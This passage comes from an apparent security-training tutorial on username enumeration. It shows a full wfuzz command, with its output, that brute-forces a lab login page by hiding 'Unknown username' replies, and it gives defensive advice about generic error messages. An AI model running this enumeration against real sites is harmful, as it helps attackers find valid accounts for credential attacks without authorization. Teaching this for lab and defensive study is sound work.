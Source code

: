 ![](https://academy.hackthebox.com/storage/modules/80/unknown_username-burp_request.png)

We notice that the application replies with an `Unknown username` message, and we guess that it uses a different message when the username is valid.

We can carry out the brute force attack using `wfuzz` and a reverse string match against the response text ( `--hs` "Unknown username," where " `hs`" should be a mnemonic used for string hiding), using a short wordlist from SecLists. Since we are not trying to find a valid password, we do not care about the `Password` field, so we will use a dummy one.

#### WFuzz - Unknown Username

```shell
wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://brokenauthentication.hackthebox.eu/user_unknown.php
Total requests: 17

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000002:   200        56 L     143 W    1984 Ch     "admin"

Total time: 0.017432
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 975.1927

```

While `wfuzz` automatically hides any response containing an "Unknown username" message, we notice that "admin" is a valid user (the remaining usernames on the top-username-shortlist.txt wordlist are not valid). If an excellent UX is not a hard requirement, an application should reply with a generic message like "Invalid credentials" for unknown usernames and wrong passwords.

![](https://academy.hackthebox.com/storage/modules/80/06-bruteforce_username/03-custom_invalid_credentials.png)

* * *

## Username Existence Inference

Sometimes a web application may not explicitly state that it does not know a specific username but allows an attacker to infer this piece of information. Some web applications prefill the username input value if the username is valid and known but leave the input value empty or with a default value when the username is unknown. This is quite common on mobile versions of websites and was also the case on the vulnerable WordPress login page we saw earlier. While developing, always try to give the same experience for both failed and granted login: even a slight difference is more than enough to infer a piece of information.
